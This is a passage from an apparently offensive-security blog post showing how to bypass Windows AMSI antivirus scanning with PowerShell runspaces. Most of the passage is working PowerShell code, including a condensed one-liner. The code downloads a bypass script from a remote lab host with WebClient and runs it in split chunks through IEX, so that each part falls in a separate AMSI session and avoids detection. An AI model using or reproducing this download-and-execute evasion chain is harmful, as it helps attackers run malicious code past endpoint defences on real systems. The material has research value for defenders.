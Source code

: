 We show that this allows us to run our commands in separate AMSI sessions. Nice.

[im 12]


Applying this to Rasta Mouse's script, we can adapt our code a bit to shorten things. We reuse a single PowerShell instance and [clear its commands](https://stackoverflow.com/questions/25156868/remove-command-from-powershell-pipeline) each time.

```
$Runspace = [runspacefactory]::CreateRunspace()
$Runspace.Open()
         
$PowerShell = [powershell]::Create()
$PowerShell.runspace = $Runspace
$PowerShell.AddScript({$full = (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full.txt")}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(0,591))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(591,60))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(651,126))}).Invoke();
```

We end up with this long “1-liner” which downloads our AMSI bypass script, splits it up, and runs each part in separate AMSI sessions but in the same runspace. Fantastic.

```
$Runspace = [runspacefactory]::CreateRunspace();$Runspace.Open();$PowerShell = [powershell]::Create();$PowerShell.runspace = $Runspace;$PowerShell.AddScript({$full = (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full.txt")}).Invoke();$PowerShell.Commands.Clear() ;$PowerShell.AddScript({IEX($full.substring(0,591))}).Invoke();$PowerShell.Commands.Clear() ;$PowerShell.AddScript({IEX($full.substring(591,60))}).Invoke();$PowerShell.Commands.Clear() ;$PowerShell.AddScript({IEX($full.substring(651,126))}).Invoke();
```

### An actual case where we need separate AMSI sessions

#### Intro

In the last section, we responded to a “what-if” scenario: a case where an Antivirus actually correlates multiple buffers within one AMSI session.

Let's now look at a scenario where the runspace technique is actually needed.

We go back to our original AmsiScanBuffer bypass, which ran Rasta Mouse's script, split in 3 parts (we don't worry about AMSI sessions for now).

```
$full = (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full.txt"); IEX($full.substring(0,591)); IEX($full.substring(591,60)); IEX($full.substring(651,126))
```
